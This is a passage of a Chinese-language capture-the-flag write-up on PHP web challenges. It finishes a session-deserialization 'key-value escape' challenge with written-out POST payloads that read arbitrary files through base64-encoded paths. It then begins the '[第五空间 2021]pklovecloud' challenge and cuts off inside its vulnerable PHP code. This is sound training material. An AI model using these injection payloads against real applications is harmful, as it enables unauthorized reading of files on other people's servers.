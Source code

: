 <font style="color:rgb(77, 77, 77);">if($_SESSION){unset($_SESSION);}意思是如果存在$_SESSION这个变量,则将其销毁 </font>

<font style="color:rgb(77, 77, 77);">接着我们利用键值逃逸构造payload</font>

```php
?f=show_image
 
post:_SESSION[phpflag]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

打开源代码后发现

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737558502374-4056f8b2-b2d0-4abb-921a-e6cd482866b7.png)

<font style="color:rgb(77, 77, 77);">他告诉我们flag在根目录下的d0g3_fllllllag文件下,那么我们利用刚才的文件读取漏洞再读一下就可以了</font>

<font style="color:rgb(77, 77, 77);">首先要把 /d0g3_fllllllag 转成base64编码 L2QwZzNfZmxsbGxsbGFn</font>

<font style="color:rgb(77, 77, 77);">之后构造payload</font>

```php
?f=show_image
 
post:_SESSION[phpflag]=;s:1:"1";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737558638367-d0d5342a-9772-4fe9-995a-f488904859e6.png)

<h3 id="MOFtk">[第五空间 2021]pklovecloud</h3>
打开靶机后发现php代码

```php
<?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
```